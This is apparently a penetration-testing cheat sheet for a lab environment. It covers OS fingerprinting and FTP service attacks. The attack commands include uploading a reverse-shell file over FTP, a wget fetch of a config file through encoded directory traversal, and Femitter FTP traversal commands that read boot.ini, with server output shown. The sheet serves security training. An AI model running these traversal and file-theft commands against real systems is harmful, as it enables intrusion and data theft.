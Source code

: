 OS Fingerprinting:
```bash
$ xprobe2 -v -p tcp:80:open 192.168.6.66
```

Kali Apache server not working properly? Try use:
`$ python -m SimpleHTTPServer 8080`

# SERVICES

### FTP - TCP 21

FTP Recon
* It is NOT always about extracting creds / putting in a reverse-shell for LFI => code exec.
* Sometimes FTP is there so you can enumerate additional services in the box => find exploits => code exec.
* __Look at 10.11.1.226 as an example__

Fingerprint / access FTP server:
```
# cmdline access
$ nc 10.11.1.125 21
$ telnet 10.11.1.125 21
$ ftp 10.11.1.125

# browser access
ftp://10.11.1.125
```

File get/put methods:
```bash
# Standard
ftp> get [ filename ]
ftp> put reverse-shell.txt

# Wget
wget -r ftp://user:pass@10.11.1.125/\\..%2fConfigs%2fsettings.cfg
```

Directory traversal
```bash
# Navigating dirs with whitespaces
ftp> ls ../../../../Docume~1/

# Directory Traversal / Bypass (Femitter FTP)
ftp> get ../\../\../\../\boot.ini
200 Port command successful.
150 Opening data connection for ../../../boot.ini.
226 File sent ok
ftp> dir ../\../\../\temp/
```

CompleteFTP Server - Directory Traversal
* https://www.exploit-db.com/exploits/11973

